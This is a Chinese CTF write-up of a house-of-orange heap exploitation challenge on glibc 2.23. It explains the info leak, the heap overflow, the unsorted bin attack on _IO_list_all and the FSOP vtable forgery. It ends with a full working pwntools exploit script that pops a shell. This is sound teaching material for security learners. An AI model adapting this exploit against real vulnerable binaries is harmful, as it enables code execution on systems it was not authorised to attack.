

依旧是菜单题目。但是没有free函数。


add函数，num变量仅仅用来记录使用函数的次数不进行寻址，所以只能操作同一个堆块。使用了malloc函数，存在未初始化数据。


show函数里面用了%s来打印，存在泄漏点。


edit函数可以重置堆块输入大小，存在堆溢出。并且跟add函数一样存在使用次数的限制。

很明显没有free函数就是要去利用house of orange去创造释放的堆块。

当我们得到一个大堆块的时候，申请一个largebin大小的堆块就会有libc地址跟堆地址留存。只需要用edit函数分别覆盖就能得到堆地址跟libc地址。

然后我们就需要利用unsortedbinattack去干一件大事。把main_arena+88的地址写在IO_list_all上去拦截IO结构体到我们控制的地方。

当IO结构体第一个chain指向main_arena+88的时候，第二个chain指向的地方刚好是smallbin储存0x60堆块大小的地方。所以如果我们在attack的同时往smallbin里面放入一个0x60的堆块就可以劫持到我们控制的堆块上。

之后在堆块上伪造IO结构体，因为版本为2.23，所以可以直接去伪造虚表。


可以看到第一个chain里面指向下一个chain位置刚好指向我们控制的堆块。



第二个chain的结构。

这里对于IO结构体执行的检查可以看pwn好难里面的FSOP。这里就不多说了。

这里之所以会触发smallbin的放入跟unsortedbinattack，是因为add函数在进入的时候会malloc(0x10)。

此时unsortedbin里面的堆块已经被修改了大小为0x60。

所以会触发unsorted的分配，0x60属于smallbin，所以会被放入等待分配。此时拥有完整的IO链。当触发刷新流的时候就会触发shell。而malloc之后刚好有输出。

```
from pwn import *

context.arch = 'amd64'
#r=remote("43025c7073f64e054c53c922.tcp-ctf2.dasctf.com", 9999, ssl=True)
r = process('./11')
libc = ELF('libc1.so.6')
def add(size,name,price,ch):
    r.sendlineafter(b'Your choice : ',b'1')
    r.sendlineafter(b'Length of name :',str(size).encode())
    r.sendafter(b'Name :',name)
    r.sendlineafter(b'Price of Orange:',str(price).encode())
    r.sendlineafter(b'Color of Orange:',str(ch).encode())
def see():
    r.sendlineafter(b'Your choice : ',b'2')
def re(size,name,price,ch):
    r.sendlineafter(b'Your choice : ',b'3')
    r.sendlineafter(b'Length of name :',str(size).encode())
    r.sendafter(b'Name:',name)
    r.sendlineafter(b'Price of Orange:',str(price).encode())
    r.sendlineafter(b'Color of Orange:',str(ch).encode())
add(0x30,b'aaaa',0x30,1)
re(0x80,b'a'*0x30+p64(0)+p64(0x21)+p32(0x30)+p32(0x1f)+p64(0)*2+p64(0xf81),0x30,1)
add(0xf90,b'bbbb'*4,0x30,1)
add(0x400,b'a'*7+b'c',0x30,1)
see()
r.recvuntil(b'c')
libc_addr = u64(r.recv(6).ljust(8,b'\x00'))
libc_base = libc_addr - 0x3c5188
print(hex(libc_base))

system = libc_base+libc.sym['system']
list_IO = libc_base+libc.sym['_IO_list_all']
re(0x20,b'a'*0xf+b'c',0x30,1)
see()
r.recvuntil(b'c')
heap_addr = u64(r.recv(6).ljust(8,b'\x00'))
heap_base = heap_addr - 0xe0
print(hex(heap_base))

payload1=p64(0)*2+p64(system)*2
payload1+=b'\x00'*0x3e0+p64(0)+p64(0x21)+p64(0)*2
payload1+=b'/bin/sh\x00'+p64(0x61)+p64(0)+p64(list_IO-0x10)
payload1+=p64(0)+p64(0x1)+p64(0)+0xa0 * b"\x00"
payload1+=p64(heap_base+0xf0)
re(0x1000,payload1,0x30,1)

r.sendlineafter(b'Your choice : ',b'1')
r.interactive()
```

